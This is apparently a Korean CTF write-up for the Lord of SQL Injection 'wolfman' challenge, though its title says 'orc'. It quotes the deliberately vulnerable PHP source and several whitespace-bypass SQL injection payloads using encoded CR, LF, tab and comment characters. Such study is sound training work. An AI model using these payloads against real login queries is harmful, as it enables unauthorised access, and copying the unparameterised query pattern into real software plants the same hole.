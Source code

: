# Lord of SQL Injection No.4 - orc
## 문제 출제 의도
' '(공백)없이 쿼리를 조작하여 해결 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
wolfman의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - GET방식으로 받은 pw에 공백이 있으면 "No whitespace ~_~"이 출력되고 문제풀이에 실패한다.
    - 문제 풀이에 성공하는 조건은 데이터베이스에서 받아온 id 값이 'admin'이면 통과이다.
## 문제 해결
+ 추가 문자열  
    'admin'을 id 값으로 받아오기 위해서는 다음과 같은 문자열이 URL뒤에 추가되어야 한다.
    ~~~
    ?pw=' or id='admin'-- -'
    ~~~
    그러나 공백을 입력하면 문제풀이에 실패함으로 공백을 대체할 문자들을 넣으면 문제풀이에 성공한다.  

+ CR(Carriage Return) 이용  
    ~~~
    ?pw='%0Dor%0Did='admin'--%0D-
    ~~~
    ASCII Code에서 Carriage Return은 0x0D에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ LF(Line Feed) 이용  
    ~~~
    ?pw='%0Aor%0Aid='admin'--%0A-
    ~~~
    ASCII Code에서 Line Feed은 0x0A에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ Tab 이용  
    ~~~
    ?pw='%09or%09id='admin'--%09-
    ~~~
    ASCII Code에서 Tab은 0x09에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ 주석 이용  
    ~~~
    pw='/**/or/**/id='admin'%23
    ~~~
    주석을 구문 사이에 입력하면 공백이 없어도 원활히 작동한다.
    이떄 #을 주석 대신 넣은 이유는 -- - 사이의 공백에 주석을 입력하면 정상적으로 작동하지 않기 때문이다.

**위와 같은 방법들 중 하나로 해결하면 $result['id']에 'admin'이 들어가므로 문제 해결에 성공한다.**
